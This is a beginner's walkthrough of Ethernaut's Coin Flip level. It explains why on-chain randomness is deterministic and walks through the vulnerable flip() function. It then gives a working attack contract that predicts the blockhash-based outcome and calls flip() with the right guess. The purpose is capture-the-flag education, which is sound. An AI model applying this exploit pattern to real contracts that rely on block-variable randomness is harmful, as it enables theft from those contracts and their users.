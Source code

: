 # Ethernaut - Walkthrough for Noobs - 3 - Coin Flip

The solution to this challenge is fairly easy, however, it introduces an extremely crucial topic in the blockchain which we usually take for granted otherwise. As always, I will break down the concepts and give you all the tools to solve the problem 100% on your own and then provide my solution.

With that being said let's begin.

> Objectives:
> 
> This is a coin flipping game where you need to build up your winning streak by guessing the outcome of a coin flip. To complete this level you'll need to use your psychic abilities to guess the correct outcome 10 times in a row.

### Background

If you are familiar with any programming language, you must have come across a function called `random` in some form or the other.

In Javascript for example:

```javascript
var random = Math.random();
console.log("Random Number Generated : " + random); 

//This will generate a random float between 0(inclusive) and 1(exclusive).
```

But no such function exists in Solidity. Why is that?

This is because in the true sense of the word Ethereum is a [Deterministic Finite Machine](https://www.tutorialspoint.com/automata_theory/deterministic_finite_automaton.htm). All transactions on the Ethereum blockchain are deterministic state transition operations i.e. for each input we can determine which state the machine will be in. This is not an inherent flaw per se but a trade-off we make for an extremely important thing: **Consensus.**

If the above sounds like jargon to you, it simply means:

* All nodes have the same copy of the code.
    
* All nodes run it in exactly the same manner.
    
* Thus, they must exactly arrive at the same state.
    

Read more [here](https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#entropy-illusion).

Thus, we can confidently say that on-chain randomness is not possible. However, what we truly want is not randomness but unpredictability. We want a number that might not be truly random but extremely difficult to predict till it is released.

There are a few [solutions](https://ethereum.stackexchange.com/questions/191/how-can-i-securely-generate-a-random-number-in-my-smart-contract) and workarounds to this problem, such as RANDAO, Commit Reveal Techniques, and the use of Oracles.

### Problems and Code of Importance

This leads people to try to create sort of seemingly random numbers in their contracts which are not really random and can be replicated. Since smart contracts in the same block will have the same value and thus the same random number. Some common pitfalls are using the block context variables such as block hashes, difficulty, gas limit, etc.

The way to attack this is to create another smart contract with the same code to generate the random number.

Coming back to the Coin Flip Challenge, the following code is of importance to us and should be the focal point of our attack.

```solidity
//We have 3 state variables
uint256 public consecutiveWins; //counts how many consecutive wins we have. 
uint256 lastHash; //updated by the flip() function.
//FACTOR is largest integer possible in solidity divided by 2.
uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
```

I will try to explain the code in the comments.

```solidity
//this function basically takes a boolean representing the side of the coin and returns a boolean indicating whether the caller won or not.  
  function flip(bool _guess) public returns (bool) { 
//block.number and blockhash are global variables, we can never know the block values of the block currently being mined, therefore we are using -1 here. 
    uint256 blockValue = uint256(blockhash(block.number - 1));
//revert() is used so that we cannot call flip multiple times in the same block, and will actually have to predict the flip every single time. 
    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
//coinFlip would either be 0 or 1, since Factor is Max_int/2 and there are equal numbers above and below Factor. 
    uint256 coinFlip = blockValue / FACTOR;
//if coinFlip is 1 return true else return false. Essentially a 50-50 chance. 
    bool side = coinFlip == 1 ? true : false;
//this line of code just updates consecutiveWins. 
    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
```

Now if you realize that the "randomness" created in this block is not truly random and you can just calculate `_guess` in another function by creating another contract with the same parameter and feeding the solution in this contract. The problem is solved.

### Solution

1. Open the Remix IDE [here](http://remix.ethereum.org). We need to write an attack code.
    
2. Copy and paste the Coinflip contract into a file and name it `coinflip.sol`
    
3. Create another file and name it anything, I have named it `attack.sol`
    
4. Generate a new instance and copy the contract address.
    
5. Make sure you are not on a VM.
    
6. Copy the following code in `attack.sol`
    

```solidity
import './CoinFlip.sol';

contract CoinFlipAttack{
     uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;
     address instanceAddress = "Your Instance Address, without the Quotes" ;
   //creates a variable of type CoinFlip pointing to our instanceAddress
     CoinFlip public originalContract = CoinFlip(instanceAddress);
   //same code to generate same result. 
     function coinAttack() public {
       uint256 blockValue = uint256(blockhash(block.number - 1));
       uint256 coinFlip = blockValue/FACTOR;
       bool side = coinFlip == 1 ? true : false;
   //calling the flip function in the contract and feeding it our solution.    
       originalContract.flip(side);
     }
   
 }
```

1. Make sure to deploy both `attack.sol` and `coinflip.sol` in Remix.
    
2. Now call the `coinAttack()` function 10 times, to pass the stage.
    
3. Make sure that `consecutiveWins()` is increasing by putting this in your console.
    
    ```javascript
    await contract.consecutiveWins()
    ```
    
    Side Quest: Doing this 10 times is a slightly cumbersome process, is there any way we can automate this?
    
    I will probably do this using python in some form later, let me know if you would want the automated version as well.
    

CoinFlip✅